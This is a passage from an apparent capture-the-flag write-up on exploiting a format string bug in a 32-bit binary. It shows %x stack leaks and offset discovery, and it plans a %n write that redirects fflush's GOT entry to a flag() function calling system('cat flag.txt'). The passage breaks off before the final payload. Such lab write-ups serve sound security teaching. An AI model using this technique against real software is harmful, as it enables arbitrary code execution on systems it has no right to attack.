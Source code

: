 ```
$    ./32_new
Hello baby pwner, whats your name?
%x.%x.%x.%x
Ok cool, soon we will know whether you pwned it or not. Till then Bye 8048914.ffab2f78.ffab2fcc.f7fa0289
```

We can see there that we have printed off values as four byte hex values. The thing that makes this really fun, is printf has a `%n` flag. This will write an integer to memory equal to the amount of bytes printed. With this due to the binary's setup we can get code execution. Since PIE isn't enabled we know the address of everything from the binary including the GOT table, which holds the addresses of libc function which are executed. Since RELRO is not enabled, we can write to this table. So we can use this bug to write to the GOT table so when it tries to call a function from libc, it will call something else. Looking at the code we see that `fflush` would be a good candidate since it is after the `printf` call.

Now let's figure out how to exploit this bug. First we need to see where our input ends up on the stack in reference to the format string bug. In order to do this, we will just give some input and see where it is with `%x` flags:

```
$    ./32_new
Hello baby pwner, whats your name?
000011112222.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
Ok cool, soon we will know whether you pwned it or not. Till then Bye 000011112222.8048914.ff8b05c8.ff8b061c.f7f7a289.38c.f7bee794.ff8b0874.f7f6a3d0.f7f7a73d.30303030.31313131.32323232.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825
$    ./32_new
Hello baby pwner, whats your name?
000011112222.%10$x.%11$x.%12$x
Ok cool, soon we will know whether you pwned it or not. Till then Bye 000011112222.30303030.31313131.32323232
```

So we can see that the offsets for our three four byte values are `10`, `11`, and `12`. Now the reason why these are four bytes is they will store an address that we are writing to, and since this is x86 addresses are four bytes. The reason why there are three of them, is we can only write a number equal to the amount of bytes printf has printed. So writing an entire address like `0x08048574` will cause us to print a huge amount of bytes, and really isn't realistic over a remote connection. So we can split it up into three smaller writes. Now the question is what function will we overwrite the GOT entry of `fflush` with. Looking through the list of functions, we see `flag` at `0x0804870b` looks like a good candidate (no arguments needed):

```

/* WARNING: Unknown calling convention yet parameter storage is locked */
/* flag() */

void flag(void)

{
  system("cat flag.txt");
  return;
}
```
